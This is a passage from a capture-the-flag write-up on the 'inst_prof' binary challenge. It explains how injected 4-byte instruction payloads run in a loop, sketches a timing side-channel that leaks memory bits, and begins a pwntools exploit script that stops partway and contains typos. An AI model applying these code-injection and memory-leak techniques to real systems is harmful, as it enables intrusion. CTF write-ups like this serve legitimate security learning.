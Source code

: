 The most important thing here is that we can provide 4 bytes that will be put into the code template and then will be executed 4096 times because of the loop in the template. We can actually make our payload be executed just once by providing `ret` instruction opcode - which is 1 byte - inside of it. Of course this limits us to sending only instructions with at most 3 bytes in length.

#### Memory leak idea

Another interesting thing is that the execution time of our payload is printed to us. This can be used in order to create a memory leak. Such a leak could be performed with steps listed below:
* put particular address in a register - e.g. `r14`
* get the value/dereference the address - `mov r15, DWORD PTR [r14]`
* make a bitwise AND operation - getting particular bit of the value - `and r15, 1`
* measure and compare time of `sub rcx, r15` after above instructions and when `r15` is just 0

If the time of `sub rcx, r15` with all the previous steps is similar to time when `r15` register is just 0, it means that the given bit is 0. Otherwise its value is 1.
The meaning of "similar time" would have to be measured/checked experimentally.

Of course the above idea leaks just the first bit. For other bits we would have to shift  value stored in `r15` register to the right by using `shr r15, X` instruction before `and r15, 1`. The `X` is the bit index we would like to leak.

### Basic script

Below you can see a script base used to solve the task. It uses awesome [pwntools](https://github.com/Gallopsled/pwntools) module and can be invoked as:
* `./hack.py` - launches process locally
* `./hack.py GDB` - launches process under GDB setting a breakpoint before calling the template code (`&do_test+86`)
* `./hack.py GDB="break main"` - launches process under GDB with given gdbscript (here setting a breakpoint on the `main` function)
* `./hack.py REMOTE` - connects to the organizers server

It also defines `send_instr` function that assembles given instructions, validates whether they are 4 bytes long - if not it pads them with `ret` which skips unnecessary loop iterations.

```python
#!/usr/bin/env python
# coding: utf8
from pwn import *

binary = './inst_prof'
host, port = 'inst-prof.ctfcompetition.com:1337'.split(':')
port = int(port)

e = ELF(binary)         # setting pwntools context os/arch
context.os = 'linux'    # so that we won't have to specify it explicitly
context.arch = e.arch   # when using pwntools functions like asm etc.

# Command line arguments handling
if args['REMOTE']:
    p = remote(host, port)
elif args['GDB']:
    gdbscript = args['GDB'] if args['GDB'] != 'True' else 'break *&do_test+86'
    p = gdb.debug(binary, gdbscript=gdbscript)
else:
    p = process(binary)

def send_instr(instrs):
    payload = asm(instrs)

    assert len(paylod) <= 4, "Payload too long: %s" % instr

    while len(payload) < 4:     # filling remaining bytes with
        payload += asm('ret')   # `ret` instructions (`ret` has 1 byte)

```